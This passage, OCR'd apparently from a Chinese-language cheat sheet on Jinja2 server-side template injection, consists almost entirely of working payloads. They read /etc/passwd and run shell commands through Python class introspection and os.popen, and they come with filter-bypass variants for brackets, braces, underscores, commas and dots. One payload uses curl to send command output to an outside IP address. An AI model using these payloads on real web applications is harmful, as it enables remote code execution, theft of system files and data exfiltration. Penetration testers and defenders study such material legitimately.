 ```python
{{ c("/etc/passwd").readlines() }}
{% endif %}
{% endfor %}

# python2/3 rce
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='_IterationGuard' %}{{ c.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}

{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__ == 'catch_warnings' %}{% for b in c.__init__.__globals__.values() %}{% if b.__class__ == {}.__class__ %}{% if 'eval' in b.keys() %}{{ b['eval']('__import__("os").popen("id").read()') }}{% endif %}{% endif %}{% endfor %}{% endif %}{% endfor %}
```

##### Bypass

绕过中括号

```python
#通过__bases__.__getitem__(0)（__subclasses__().__getitem__(128)）绕过__bases__[0]（__subclasses__()[128]）
#通过__subclasses__().pop(128)绕过__bases__[0]（__subclasses__()[128]）
"".__class__.__bases__.__getitem__(0).__subclasses__().pop(128).__init__.__globals__.popen('whoami').read()
```

过滤{{或者}}

```python
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://39.105.116.195:8080/?i=`whoami`').read()=='p' %}1{% endif %}
```

过滤_

用编码绕过

```python
比如：__class__ => \x5f\x5fclass\x5f\x5f

_是\x5f，.是\x2E
过滤了_可以用dir(0)[0][0]或者request['args']或者 request['values']绕过
但是如果还过滤了 args所以我们用request[‘values’]和attr结合绕过
例如''.__class__写成 ''|attr(request['values']['x1']),然后post传入x1=__class__
```

绕过逗号+中括号

```python
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(250).__init__.__globals__.__builtins__.chr %}{{().__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.os.popen(chr(119)%2bchr(104)%2bchr(111)%2bchr(97)%2bchr(109)%2bchr(105)).read()}}
```

过滤.
.在payload中是很重要的，但是我们依旧可以采用attr()或[]绕过
